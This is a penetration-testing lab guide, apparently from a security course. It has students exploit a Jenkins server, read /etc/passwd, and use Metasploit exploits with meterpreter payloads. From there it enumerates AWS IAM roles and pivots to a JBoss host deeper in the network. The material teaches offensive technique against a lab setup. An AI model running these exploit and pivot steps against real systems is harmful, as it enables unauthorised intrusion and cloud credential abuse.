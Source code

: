 # Lab 2

**Table of Contents**

- [Enumeration](##enumeration)
- [Exploiting Jenkins Manually](##exploiting-jenkins-manually)
- [Introducing Metasploit](##introducing-metasploit)
- [Exploiting Jenkins with Metasploit](##exploiting-jenkins-with-metasploit)
- [Pivot/Penetrate](##pivot/penetrate)

# Title

In this lab, we will be exploiting a popular Build Platform and use it to pivot deeper into the network.

*Resources:*

- [https://nmap.org/book/man.html](https://nmap.org/book/man.html)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [http://docs.aws.amazon.com/cli/latest/](http://docs.aws.amazon.com/cli/latest/)

---

## Enumeration

Find a vulnerable host.

1. Install Nmap.

  ```
$ sudo yum -y install nmap
  ```

2. Port scan a vulnerable host.

  ```
$ nmap -PN -p8080 -sV 52.41.95.90
  ```

## Exploiting Jenkins Manually

1. Load `http://52.39.125.179:8080` on your browser.

2. Select `New Item`, enter your student ID under `Item name` and select `Freestyle project`. Click `OK`.

3. Under `Build`, click `Add a build step`, select `Execute shell`. In the `Command` text box enter `cat /etc/passwd` and click `Save`.

4. Select `Build Now`, then click the last `Build History` job and click `Console Output`. What do you see? Would you put this host on the internet as is?

5. Go back to your project and click `Configure` run other commands such as `whoami`, `pwd` and `ps` to familiarize yourself with this host. What flavor of linux is this? What packages are installed?


## Introducing Metasploit

1. Install Metasploit.

  Download and extract the Metasploit package from the DSO bucket: `dso-public-bucket`

  ```
$ curl -O https://s3-us-west-2.amazonaws.com/dso-public-bucket/metasploit-framework-master.zip
$ unzip metasploit-framework-master.zip
  ```

  Alternatively clone the Metasploit Git project directly.

  ```
$ git clone https://github.com/rapid7/metasploit-framework.git
  ```

2. Install dependencies and run `msfconsole`.

  ```
$ cd metasploit-framework-master
$ sudo yum -y install libpcap-devel postgresql-devel libsqlite3-dev sqlite-devel
$ bundle install
$ ./msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.10-dev                         ]
+ -- --=[ 1556 exploits - 902 auxiliary - 268 post        ]
+ -- --=[ 438 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >
  ```

## Exploiting Jenkins with Metasploit

1. Search for the Jenkins-CI Script-Console Java Execution exploit. You can do this using the `search` keyword.

2. Configure the exploit for use.

  In the example below we are using TCP port 10001 to create a listener (`LPORT`). Please contact the instructor to see which port you should be using.

  ```
> use exploit/multi/http/jenkins_script_console
> show options
> set RHOST 52.39.125.179
> set RPORT 8080
> set TARGETURI /
> set target 1
> set payload linux/x86/meterpreter/bind_tcp
> set LPORT 10001
  ```

2. Exploit the target and run the shell.

  ```
> exploit
> shell
  ```

3. Run the AWS CLI to determine if this host has IAM permissions.

  ```
$ aws iam list-users --region us-west-2
  ```

4. Since this host does not have IAM privileges, let's find a host that does.

  Run the AWS CLI to determine the IP address of another host that may have an overly permissive instance profile/role.

  ```
$ aws ec2 describe-instances --region us-west-2
  ```

  Is that shot of JSON to the eye? Try filtering the results, like this:

  ```
aws ec2 describe-instances --region us-west-2 --filters Name=iam-instance-profile.arn,Values=arn:aws:iam::717986480831:instance-profile/dso-overly-permissive
  ```

  Make note of this host's IP address. This is target 2.

  Throw the shell into the background by pressing `ctrl-z`, followed by `y` and `ENTER`. Also throw the Meterpreter shell into the background by again pressing `ctrl-z`, followed by `y` and `ENTER`. Then list your sessions.

  ```
> sessions
  ```

  Make note of the session ID, e.g., `1`.

## Pivot/Penetrate

1. Add a route to pivot to a host that is deeper inside the network (target 2).

  E.g.,

  ```
> route add 10.0.6.0 255.255.255.0 1
  ```

  2. Scan the host you discovered for vulnerabilities.

  ```
> use auxiliary/scanner/http/jboss_vulnscan
> show options
> set RHOSTS 10.0.6.165
> set RPORT 8080
> show options
> run
  ```

2. Search for the JBoss DeploymentFileRepository WAR Deployment exploit. E.g., `search JMXInvokerServlet`.

3. Configure the exploit.

  ```
> use exploit/multi/http/jboss_invoke_deploy
> set RHOST 10.0.6.165
> set target 1
> set payload java/meterpreter/bind_tcp
> set LPORT 10001
> exploit
  ```

4. Run the AWS CLI to determine if this host has IAM permissions.

  ```
> shell
python -c 'import pty; pty.spawn("/bin/bash")'
$ export http_proxy=http://proxy:3128
$ export https_proxy=http://proxy:3128
$ aws iam list-users --region us-west-2
  ```

  What does this mean?

